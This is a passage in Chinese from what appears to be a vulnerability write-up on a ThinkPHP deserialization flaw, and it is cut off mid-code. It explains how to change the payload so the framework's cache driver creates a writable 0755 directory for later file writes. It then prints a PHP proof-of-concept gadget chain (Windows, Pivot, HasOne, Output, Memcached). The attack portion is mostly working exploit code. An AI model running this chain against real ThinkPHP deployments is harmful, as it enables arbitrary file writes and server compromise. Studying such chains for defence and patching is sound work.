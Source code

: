 在漏洞利用时需注意目录读写权限，可先控制options[‘path’] = ‘./demo/‘，利用框架创建一个755文件夹（前提是具有权限）

我们可以稍微修改下 payload 用于创建一个 0755 权限的目录（这里利用的是 think\cache\driver\File:getCacheKey() 中的 mkdir 函数），然后再往这个目录写文件。

![ba92f014c78344a0acec349b45ed3bd5](images/ba92f014c78344a0acec349b45ed3bd5.gif)


poc 创建demo目录


```php
<?php
namespace think\process\pipes;
use think\model\Pivot;
class Pipes{

}

class Windows extends Pipes{
    private $files = [];

    function __construct(){
        $this->files = [new Pivot()];
    }
}

namespace think\model;#Relation
use think\db\Query;
abstract class Relation{
    protected $selfRelation;
    protected $query;
    function __construct(){
        $this->selfRelation = false;
        $this->query = new Query();#class Query
    }
}

namespace think\model\relation;#OneToOne HasOne
use think\model\Relation;
abstract class OneToOne extends Relation{
    function __construct(){
        parent::__construct();
    }

}
class HasOne extends OneToOne{
    protected $bindAttr = [];
    function __construct(){
        parent::__construct();
        $this->bindAttr = ["no","123"];
    }
}

namespace think\console;#Output
use think\session\driver\Memcached;
class Output{
    private $handle = null;
    protected $styles = [];
    function __construct(){
        $this->handle = new Memcached();//目的调用其write()
        $this->styles = ['getAttr'];
    }
}

namespace think;#Model
```